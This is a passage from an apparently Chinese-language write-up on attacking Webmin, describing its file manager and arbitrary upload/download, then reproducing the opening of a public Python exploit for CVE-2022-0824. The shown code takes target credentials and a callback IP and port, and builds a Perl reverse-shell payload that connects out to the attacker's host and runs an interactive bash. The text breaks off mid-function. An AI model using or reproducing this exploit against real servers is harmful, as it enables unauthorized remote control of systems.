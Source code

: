 file manager 浏览所有文件

![image-20230215152923917](2024-02-13/image-20230215152923917.png)

upload and download 上传下载任意文件

**5.poc 攻击**

poc地址：https://github.com/faisalfs10x/Webmin-CVE-2022-0824-revshell/blob/main/Webmin-revshell.py

具体内容：

```python
import requests
import urllib3
import argparse
import os
import time

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

TGREEN =  '\033[32m'
TRED =  '\033[31m' 
TCYAN =  '\033[36m' 
TSHELL =  '\033[32;1m' 
ENDC = '\033[m'

class Exploit(object):
    def __init__(self, target, username, password, py3http_server, pyhttp_port, upload_path, callback_ip, callback_port, fname):
        self.target = target
        self.username = username
        self.password = password
        self.py3http_server = py3http_server
        self.pyhttp_port = pyhttp_port
        self.upload_path = upload_path
        self.callback_ip = callback_ip
        self.callback_port = callback_port
        self.fname = fname

        #self.proxies = proxies
        self.s = requests.Session()


    def gen_payload(self):
        payload = ('''perl -e 'use Socket;$i="''' + self.callback_ip  + '''";$p=''' + self.callback_port + ''';socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};' ''')
        print(TCYAN + f"\n[+] Generating payload to {self.fname} in current directory", ENDC)
        f = open(f"{self.fname}", "w")
```